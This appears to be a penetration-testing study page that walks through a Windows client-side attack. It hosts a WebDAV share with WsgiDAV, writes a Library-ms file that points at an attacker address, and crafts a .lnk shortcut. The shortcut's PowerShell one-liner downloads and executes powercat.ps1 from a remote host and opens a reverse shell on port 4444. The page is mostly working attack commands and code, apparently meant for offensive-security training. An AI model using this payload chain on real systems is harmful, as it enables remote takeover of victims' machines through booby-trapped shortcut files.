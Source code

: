 # Library-ms & lnk

### Webdav

```bash
kali@kali:~$ pip3 install wsgidav
```

_<mark style="color:red;">Once WsgiDAV is installed, we'll create the</mark> <mark style="color:red;"></mark><mark style="color:red;">**/home/kali/webdav**</mark> <mark style="color:red;"></mark><mark style="color:red;">directory to use as the WebDAV share that will contain our</mark> <mark style="color:red;"></mark><mark style="color:red;">**.lnk**</mark> <mark style="color:red;"></mark><mark style="color:red;">file. For now, let's place a</mark> <mark style="color:red;"></mark><mark style="color:red;">**test.txt**</mark> <mark style="color:red;"></mark><mark style="color:red;">file in this directory.</mark>_

_<mark style="color:red;">If the installation of WsgiDAV fails with</mark> <mark style="color:red;"></mark><mark style="color:red;">**error: externally-managed-environment**</mark><mark style="color:red;">, we can use a virtual environment or install the package python3-wsgidav with apt. In PEP 668, a change was introduced to enforce the use of virtual environments and prevent situations in which package installations via pip break the operating system.</mark>_



```bash
kali@kali:~$ mkdir /home/kali/webdav

kali@kali:~$ touch /home/kali/webdav/test.txt

kali@kali:~$ /home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```



### **config.Library-ms**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

For change image icon u could change `<iconReference>imageres.dll,-1003</iconReference>`



### Create .lnk

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
```
